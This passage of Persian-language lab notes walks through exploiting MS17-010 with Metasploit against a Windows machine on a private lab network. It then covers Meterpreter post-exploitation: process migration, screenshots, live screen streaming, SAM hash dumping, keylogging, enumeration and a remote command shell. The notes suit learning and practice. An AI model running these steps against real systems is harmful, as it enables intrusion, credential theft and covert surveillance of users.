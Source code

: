 	2. `set RHOST 192.168.110.22` Target Windows IP Address
	3. `set LHOST 192.168.110.21` Kali machine IP Address
4. *Now Run Exploit*
	1. `msf6 exploit(windows/smb/ms17_010_psexec) > exploit`
	2. به محض اجرای بهره برداری میبینیم که اکسپلویت ما سعی میکند تا بوسیله یک `TCP handler`  و برقراری یک `TCP Session` یک `Meterpreter Shell` از ماشین تارگت را برای ما فراهم کند. 
	3. هنگامیکه پیغام `Meterpreter Session 1 Opened` را دیدید که آیپی آن از ماشین ویندوز تارگت به ماشین Kali بصورت Bind شده است `192.168.1.3:4444 ---> 192.168.1.2:49462` بدین معناست که `Meterpreter Shell` با موفقیت برای ما در دسترس است:
	4. `Meterpreter Session 1 Opened (192.168.1.3:4444 --> 192.168.1.2:49462) at 22-10-23 18:08:13 +0000`
		1. ![[Pasted image 20240711175905.png]]
5. *Post-Exploitation Phase with Meterpreter Shell*
	1. در اولین قدم این فاز، باید به یک پروسه که میدانیم با یوزر Full Access کار میکند مانند `powershell.exe` و یا `services.exe` و یا `cmd.exe` مهاجرت Migrate کنیم. در غیر اینصورت دسترسی لازم را برای اجرای کارهایی مانند گرفتن اسکرین شات و یا ضبط صفحه نمایش تارگت را نداریم.
	2. `Meterpreter >> migrate 3028` 3028 is a id of `explorer.exe` process
		1. ![[Pasted image 20240711180920.png]]
	3. `Meterpreter >> screenshot` Screenshots from target save in home directory
		1. ![[Pasted image 20240711181129.png]]
	4. `Meterpreter >> getuid` Get server username
		1. ![[Pasted image 20240711181316.png]]
	5. `Meterpreter >> screenshare` Start Streaming from target display on browser
		1. با اجرای این کامند، استریم صفحه دسکتاپ تارگت شروع میشود و میتوانیم این استریم را در مرورگر مشاهده کنیم. کافیست ابتدا کامند را اجرا کنیم:
			1. ![[Pasted image 20240711181433.png]]
		2. سپس خود ابزار مرورگر را باز میکند که در آن صفحه دسکتاپ تارگت استریم میشود:
			1. ![[Pasted image 20240711181616.png]]
		3. این استریم بصورت لایو است و هر عملی که تارگت انجام دهد را میتوانیم از این طریق مشاهده کنیم:
			1. ![[Pasted image 20240711181655.png]]
	6. `Meterpreter >> hashdump` Dumping SAM(Accounts) Hashes
		1. برای اینکار نیازمند دسترسی Full هستیم و با پروسه `explorer.exe` نمیتوانیم اینکار را انجام دهیم.
			1. ![[Pasted image 20240711181902.png]]
	7. `Meterpreter >> getsystem` Get all information about system
		1. این کامند هم برای اجرای نیازمند دسترسی Full است و با پروسه `explorer.exe` نمیتوانیم اینکار را انجام دهیم.
			1. ![[Pasted image 20240711182053.png]]
	8. `Meterpreter >> run ` Run a ruby script with this command
		1. برای Escalation Privilege و گرفتن دسترسی Full میتوانیم از اسکریپت های Ruby که برای اینکار نوشته شده اند استفاده کنیم.
	9. `Meterpreter >> keyscan_start` Start Key Logging
		1. با دسترسی `explorer.exe` هم میتوانیم این کامند را اجرا کنیم.
			1. ![[Pasted image 20240711182252.png]]
		2. حال کافیست تارگت مقداری را تایپ کند:
			1. ![[Pasted image 20240711182328.png]]
		3. حال کافیست `Meterpreter >> keyscan_dump` را اجرا کنیم تا مقادیری که در ماشین تارگت تایپ شده است را مشاهده کنیم:
			1. ![[Pasted image 20240711182504.png]]
	10. `Meterpreter >> keyscan_dump` Show Dumped Keys
	11. `Meterpreter >> run winenum` Start Enumerating Target windows
		1. با اجرای این کامند، یک Enumeration کامل بر روی ماشین تارگت انجام میشود و سپس نتیجه آن در `/root/` ذخیره میشود:
			1. ![[Pasted image 20240711182743.png]]
		2. میتوانیم فایل را باز کنیم تا اطلاعات ماشین تارگت را بصورت دقیق مشاهده کنیم:
			1. ![[Pasted image 20240711182944.png]]
		3. اسکریپت `winenum` مایشن ویندوزی تارگت را یک بررسی کامل از آسیب پذیری ها تا Miss configuration ها انجام میدهد و گزارش آنرا در فایلی در `root/` ذخیره میکند.
	12. `Meterpreter >> shell` Start CMD from target machine
		1. با اجاری این کامند میتوانیم به CMD ماشین ویندوزی تارگت دسترسی بگیریم:
			1. ![[Pasted image 20240711183043.png]]
		2. حال میتوانیم هر کامندی که در CMD بوطر معمول اجرا میکنیم را نیز در اینجا اجرا کنیم:
			1. ![[Pasted image 20240711183216.png]]
****
```sh
```